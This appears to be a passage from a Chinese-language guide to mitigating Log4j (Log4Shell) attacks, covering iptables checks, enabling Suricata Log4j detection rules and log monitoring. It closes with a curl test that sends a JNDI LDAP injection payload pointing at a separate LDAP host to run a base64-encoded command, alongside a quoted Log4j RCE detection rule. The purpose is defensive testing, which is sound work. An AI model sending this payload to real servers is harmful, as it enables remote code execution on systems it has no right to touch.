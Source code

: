 1. **确认规则已生效**

```bash
iptables -L -n
```

------

### 🚩 **方法 4：在 Suricata 中启用 Log4j 检测规则**

1. **更新 Suricata 规则**
    在容器外部更新规则：

```bash
suricata-update
```

1. **查看是否存在 Log4j 相关规则**

```bash
grep "log4j" /var/lib/suricata/rules/*.rules
```

示例输出：

```
/var/lib/suricata/rules/emerging-exploit.rules:alert tcp any any -> any any (msg:"ET EXPLOIT Apache log4j RCE Attempt"; ...)
```

1. **启用规则**
    在 `/etc/suricata/suricata.yaml` 中启用：

```yaml
rule-files:
  - emerging-exploit.rules
  - emerging-policy.rules
```

1. **重启 Suricata**

```bash
systemctl restart suricata
```

1. **监控 Suricata 日志**

```bash
docker exec -it suricata tail -f /var/log/suricata/fast.log
```

------

## ✅ **验证缓解效果**

### 🚀 **1. 执行基础 Payload 测试（预期失败）**

```bash
curl -G http://192.168.109.4:22220//hello \
--data-urlencode 'payload=${jndi:ldap://192.168.109.5:1389/TomcatBypass/Command/Base64/YmF...}'
```
